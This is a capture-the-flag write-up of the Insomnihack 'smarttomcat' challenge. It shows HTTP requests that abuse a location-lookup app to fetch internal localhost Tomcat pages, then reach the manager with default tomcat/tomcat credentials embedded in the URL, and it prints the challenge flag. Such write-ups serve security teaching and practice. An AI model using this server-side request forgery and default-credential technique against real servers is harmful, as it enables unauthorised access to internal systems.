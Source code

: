 >Normal, regular cats are so 2000 and late, I decided to buy this allegedly smart tomcat robot
Now the damn thing has attacked me and flew away. I can't even seem to track it down on the broken search interface... Can you help me ?
[Search interface](http://smarttomcat.teaser.insomnihack.ch/)

This is a simple challenge.

We have a web application to locate places from coordinates. A standard request would look like this:

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://localhost:8080/index.jsp?x=1%26y=2
```

We try

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://localhost:8080/zzz
```
and get: 

```
<html><head><title>Apache Tomcat/7.0.68 (Ubuntu) - Error report</title><style><!--H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}HR {color : #525D76;}--></style> </head><body><h1>HTTP Status 404 - /zzz</h1><HR size="1" noshade="noshade"><p><b>type</b> Status report</p><p><b>message</b> <u>/zzz</u></p><p><b>description</b> <u>The requested resource is not available.</u></p><HR size="1" noshade="noshade"><h3>Apache Tomcat/7.0.68 (Ubuntu)</h3></body></html>
```

Now let's try to read the contents of the Manager page

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://localhost:8080/manager/html
```

The response is

```
<html><head><title>Apache Tomcat/7.0.68 (Ubuntu) - Error report</title><style><!--H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}HR {color : #525D76;}--></style> </head><body><h1>HTTP Status 401 - </h1><HR size="1" noshade="noshade"><p><b>type</b> Status report</p><p><b>message</b> <u></u></p><p><b>description</b> <u>This request requires HTTP authentication.</u></p><HR size="1" noshade="noshade"><h3>Apache Tomcat/7.0.68 (Ubuntu)</h3></body></html>
```

This application requires login, we know that tomcat uses the basic authent and the credential can be [passed in URL] (http://serverfault.com/questions/371907/can-you-pass-user-pass-for- http-basic-authentication-in-url-parameters). With a little luck, I found the account is `tomcat / tomcat`

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://tomcat:tomcat@localhost:8080/manager/html
```

and we got the flag

```
We won't give you the manager, but you can have the flag : INS{th1s_is_re4l_w0rld_pent3st}
```

